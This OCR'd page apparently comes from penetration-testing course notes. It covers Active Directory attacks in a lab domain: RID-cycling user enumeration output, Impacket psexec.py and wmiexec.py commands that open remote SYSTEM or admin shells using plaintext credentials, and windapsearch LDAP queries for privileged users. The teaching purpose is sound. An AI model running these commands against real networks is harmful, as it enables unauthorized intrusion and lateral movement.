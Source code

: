 ```
rid:[0x45a]
user:[wdillard]
rid:[0x45b]
user:[lbradford]
rid:[0x45c]
user:[sgage] rid:[0x45d]
user:[asanchez]
rid:[0x45e]
user:[dbranch]
rid:[0x45f]
user:[ccruz] rid:[0x460]
user:[njohnson]
rid:[0x461]
user:[mholliday]
rid:[0x462]
```


--> **Impacket Toolkit**
Impacket is a versatile toolkit that provides us with many different ways to enumerate, interact, and exploit Windows protocols and find the information we need using Python. The tool is actively maintained and has many contributors, especially when new attack techniques arise.

Psexec.py
One of the most useful tools in the Impacket suite is psexec.py. Psexec.py is a clone of the Sysinternals psexec executable, but works slightly differently from the original. The tool creates a remote service by uploading a randomly-named executable to the ADMIN$ share on the target host. It then registers the service via RPC and the Windows Service Control Manager. Once established, communication happens over a named pipe, providing an interactive remote shell as SYSTEM on the victim host.

If we have credentials to a user with local admin privileges, this is the syntax:
```
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125
```

Wmiexec.py
Wmiexec.py utilizes a semi-interactive shell where commands are executed through Windows Management Instrumentation. It does not drop any files or executables on the target host and generates fewer logs than other modules. After connecting, it runs as the local admin user we connected with (this can be less obvious to someone hunting for an intrusion than seeing SYSTEM executing many commands).
```
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5
```

Windapsearch.py
Windapsearch is another handy Python script we can use to enumerate users, groups, and computers from a Windows domain by utilizing LDAP queries.

Windapsearch - Domain Admins
```
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p 
```

PASSWORD --daWindapsearch - Privileged Users
```
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p PASSWORD -PU
```
